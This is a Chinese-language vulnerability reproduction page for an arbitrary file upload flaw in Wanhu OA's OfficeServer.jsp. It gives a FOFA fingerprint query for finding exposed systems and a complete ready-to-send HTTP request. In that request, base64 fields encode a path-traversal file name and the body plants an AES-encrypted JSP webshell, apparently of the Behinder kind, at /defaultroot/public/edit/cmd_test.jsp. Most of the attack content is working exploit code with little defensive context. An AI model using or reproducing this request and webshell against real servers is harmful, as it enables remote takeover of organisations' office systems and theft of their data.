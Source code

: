 # 万户OA OfficeServer.jsp 任意文件上传漏洞

# 万户OA OfficeServer.jsp 任意文件上传漏洞

## 漏洞描述

万户OA 除了 /defaultroot/officeserverservlet 接口外的另一处接口 OfficeServer.jsp 同时也存在任意文件上传漏洞，导致攻击者可上传任意文件获取服务器权限

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220824142451484](/images/202208241424573.png)

发送请求包

```
POST /defaultroot/public/iWebOfficeSign/OfficeServer.jsp HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: OASESSIONID=847AE3A2E5D155AE7FB1CD2C6736CD66
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
Content-Length: 798
		
DBSTEP V3.0     170              0                1000              DBSTEP=REJTVEVQ
OPTION=U0FWRUZJTEU=
RECORDID=
isDoc=dHJ1ZQ==
moduleType=Z292ZG9jdW1lbnQ=
FILETYPE=Li4vLi4vcHVibGljL2VkaXQvY21kX3Rlc3QuanNw
111111111111111111111111111111111111111111111111
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```

![image-20220824142511911](/images/202208241425970.png)

上传后的目录为

```
/defaultroot/public/edit/cmd_test.jsp
```

![image-20220824142536837](/images/202208241425906.png)

